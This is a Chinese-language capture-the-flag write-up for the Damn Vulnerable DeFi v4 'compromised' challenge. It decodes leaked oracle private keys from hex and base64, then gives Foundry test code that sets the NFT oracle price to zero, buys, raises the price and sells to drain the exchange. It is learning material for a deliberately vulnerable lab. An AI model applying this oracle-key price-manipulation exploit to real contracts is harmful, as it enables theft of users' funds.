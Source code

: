 # Damn Vulnerable DeFi v4 - compromised

- https://www.damnvulnerabledefi.xyz/challenges/compromised/

## check condition

將 Exchange 合約裡的資金清空

```solidity
// Exchange doesn't have ETH anymore
assertEq(address(exchange).balance, 0);

// ETH was deposited into the recovery account
assertEq(recovery.balance, EXCHANGE_INITIAL_ETH_BALANCE);

// Player must not own any NFT
assertEq(nft.balanceOf(player), 0);

// NFT price didn't change
assertEq(oracle.getMedianPrice("DVNFT"), INITIAL_NFT_PRICE);
```

## break

根據題目給出的資訊，可以懷疑下面的兩段資料應該是私鑰

```txt
4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30

4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35
```

將其先透過一些線上工具將其轉換成 string:

```txt
MHg3ZDE1YmJhMjZjNTIzNjgzYmZjM2RjN2NkYzVkMWI4YTI3NDQ0NDc1OTdjZjRkYTE3MDVjZjZjOTkzMDYzNzQ0

MHg2OGJkMDIwYWQxODZiNjQ3YTY5MWM2YTVjMGMxNTI5ZjIxZWNkMDlkY2M0NTI0MTQwMmFjNjBiYTM3N2M0MTU5
```

問過 GPT 後，推測可能是 base64 encode 並透過一些線上工具解碼：

```txt
0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744

0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
```

最後以 cast 得出是哪個地址的私鑰，可以知道有權限更新 Oracle 的地址私鑰外洩：

```console
$ cast wallet addr --private-key 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744

0x188Ea627E3531Db590e6f1D71ED83628d1933088

$ cast wallet addr --private-key 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159

0xA417D473c40a4d42BAd35f147c21eEa7973539D8
```

## solution

驗證是不是對應的地址：

```solidity
// check private key compromised
uint256 pk1 = 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744;
assertEq(vm.addr(pk1), sources[0]);
uint256 pk2 = 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159;
assertEq(vm.addr(pk2), sources[1]);
```

購買價格為 0 的 NFT：

```solidity
// feed the fake price
vm.startPrank(sources[0]);
oracle.postPrice("DVNFT", 0);
vm.stopPrank();
vm.startPrank(sources[1]);
oracle.postPrice("DVNFT", 0);
vm.stopPrank();
assertEq(oracle.getMedianPrice("DVNFT"), 0);

// player buy 1 nft with price 0
vm.startPrank(player);
uint256 id = exchange.buyOne{value: PLAYER_INITIAL_ETH_BALANCE}();
vm.stopPrank();
```

再來將其以 999 ether 的價格賣出：

```solidity
// feed the fake price again
vm.startPrank(sources[0]);
oracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
vm.stopPrank();
vm.startPrank(sources[1]);
oracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);
vm.stopPrank();
assertEq(oracle.getMedianPrice("DVNFT"), EXCHANGE_INITIAL_ETH_BALANCE);

// player sell 1 nft with price 999 ether
vm.startPrank(player);
nft.approve(address(exchange), id);
exchange.sellOne(id);
recovery.call{value: EXCHANGE_INITIAL_ETH_BALANCE}(new bytes(0));
vm.stopPrank();
```
